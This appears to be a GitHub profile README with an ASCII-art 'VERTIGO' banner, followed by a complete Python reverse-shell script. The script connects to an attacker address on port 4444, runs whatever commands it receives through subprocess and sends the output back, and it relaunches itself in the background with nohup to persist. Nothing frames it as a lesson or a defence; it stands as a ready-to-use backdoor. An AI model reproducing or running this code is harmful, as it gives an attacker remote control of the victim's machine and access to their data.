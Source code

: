 <div align="center">
  <img src="https://raw.githubusercontent.com/VertigoFromOuterSpace/VertigoFromOuterSpace/main/.assets/glitch_divider.svg?v=7" alt="Glitch Divider"/>
</div>

<div align="center">
  <pre>
echo  ╔═══════════════════════════════════════════════════════════════╗
echo  ║  ██╗   ██╗███████╗██████╗ ████████╗██╗ ██████╗  ██████╗       ║
echo  ║  ██║   ██║██╔════╝██╔══██╗╚══██╔══╝██║██╔════╝ ██╔═══██╗      ║
echo  ║  ██║   ██║█████╗  ██████╔╝   ██║   ██║██║  ███╗██║   ██║      ║
echo  ║  ╚██╗ ██╔╝██╔══╝  ██╔══██╗   ██║   ██║██║   ██║██║   ██║      ║
echo  ║   ╚████╔╝ ███████╗██║  ██║   ██║   ██║╚██████╔╝╚██████╔╝      ║
echo  ║    ╚═══╝  ╚══════╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝  ╚═════╝       ║
echo  ╚═══════════════════════════════════════════════════════════════╝
  </pre>
</div>

```diff

import socket
import subprocess
import os


ATTACKER_IP = "192.168.1.100"
ATTACKER_PORT = 4444

def connect():
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        # Connect to attacker
        s.connect((ATTACKER_IP, ATTACKER_PORT))
        while True:
            command = s.recv(1024).decode()
            if command.lower() == "exit":
                break
            # Execute command and send output back
            output = subprocess.getoutput(command)
            s.send(output.encode())
        s.close()
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    os.system("nohup python3 -c 'import os; os.system(\"python3 " + __file__ + "\")' &")
    connect()
